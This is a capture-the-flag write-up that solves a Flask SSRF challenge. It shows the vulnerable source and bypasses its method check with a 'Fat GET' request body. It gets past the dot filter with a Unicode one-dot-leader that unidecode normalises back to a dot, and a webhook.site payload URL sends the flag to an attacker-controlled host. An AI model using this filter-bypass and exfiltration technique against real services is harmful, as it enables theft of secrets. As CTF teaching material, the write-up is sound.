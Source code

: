## Description

Here is my admin panel where I can make secret requests to my internal services and no one else should be able to do that.
But some hackers managed to do it, help me find the issue.
I have also made some changes to the code but I'm not sure if this will fix it.

**source code available**

## Solution

upon visiting the site, we get this page :

![mainpage](images/mainpage.png)

let's check the source code and see what happens when we submit something :

```python
from flask import Flask, request, jsonify, render_template
import requests
from unidecode import unidecode
app = Flask(__name__)
FLAG="shellmates{fakeflag}"

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/operation', methods=['GET',
                                # 'POST' I hope this will fix the issue
                                ])
def print_body_param():
    body_param = request.get_json()
    url = body_param.get('url', None)
    if url:
        # no points and no % => no external urls
        if ("%" in url) or ("." in url):
            return jsonify({"msg":"only requests to localhost are allowed"}),401
        # cleaning the url to store it later
        url=unidecode(url)
        url=url.replace(" ","")
        # sending request to local services
        try:
            res=requests.get(url+f"?secret={FLAG}")
            return jsonify({"msg":"request sent succesfully"}),200
        except:
            return jsonify({"msg":"soomething went wrong"}),500
    else:
        return jsonify({"msg":"no url was provided"}),400

if __name__ == '__main__':
    app.run(debug=False)
```

so when we submit a url, it will be sent in a parameter called `url`, then it checks if there is a `.` or `%`, and if so we get a 401 response.

if our URL is clean it proceeds to `unidecode` it and then send a request to it with the flag in the `secret` parameter.

so we need to setup a server and bypass that check to get a request to our server with the flag.

we can set a public server using `https://webhook.site/`, we can view all interactions with our given URL, but as all urls, it contains the dot characters which is filtered.

first let's intercept the submission request with burpsuite, and when we send it we get :

![denied](images/denied.png)

that's logical cause the server is set to only receive GET requests on this endpoint, but with GET we can't send json data in the URL, and here comes an interesting technique known as `Fat GET`, which is sending POST data in the body but with a GET request, so let's change the method from POST to GET and send it again :

![success](images/success.png)

that worked, now the only problem is how to bypass the filtered dot in our URL.

notice that the URL is getting `unidecoded`, this means we can specify unicode characters in the parameter, and with this we can actually bypass the filter by specifying other unicode characters that represent dots, i asked ChatGPT to give me some of the dots unicode :

![gpt](images/gpt.png)

cool, now if we replace the dot in our URL, we get something like this :

```
https://webhook\u2024site/270d21e8-85f2-4646-8060-25af2d23ec20
```

let's try submitting it :

![burp](images/burp.png)

we see that the request sent succesfully, let's check our web-hook :

![flag](images/flag.png)

- flag : `shellmates{GETT1nG_FAT_w1Th_UN1C0DE_inj3CtiON}`

